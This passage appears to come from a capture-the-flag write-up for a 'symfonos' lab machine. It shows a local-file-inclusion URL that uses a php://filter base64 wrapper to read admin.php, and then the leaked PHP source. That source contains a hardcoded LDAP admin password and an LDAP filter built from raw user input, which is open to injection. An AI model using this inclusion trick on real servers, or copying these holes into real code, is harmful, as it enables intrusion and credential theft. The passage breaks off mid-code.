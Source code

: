 ```php
  </div>
</nav><br />
<center>
<?php
if ($result){
echo $result;
} else {
echo "<h3>Under Developement</h3>";
} ?>
</center>
</body>
```

**admin.php**

```
http://192.168.191.132/home.php?url=php://filter/convert.base64-encode/resource=admin.php
```

```php
<?php
session_start();

if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
    header("location: home.php");
    exit;
}

function authLdap($username, $password) {
  $ldap_ch = ldap_connect("ldap://172.18.0.22");

  ldap_set_option($ldap_ch, LDAP_OPT_PROTOCOL_VERSION, 3);

  if (!$ldap_ch) {
    return FALSE;
  }

  $bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD");

  if (!$bind) {
    return FALSE;
  }

  $filter = "(&(uid=$username)(userPassword=$password))";
  $result = ldap_search($ldap_ch, "dc=symfonos,dc=local", $filter);

  if (!$result) {
    return FALSE;
  }

  $info = ldap_get_entries($ldap_ch, $result);

  if (!($info) || ($info["count"] == 0)) {
    return FALSE;
  }

  return TRUE;

}

if(isset($_GET['username']) && isset($_GET['password'])){

$username = urldecode($_GET['username']);
$password = urldecode($_GET['password']);

```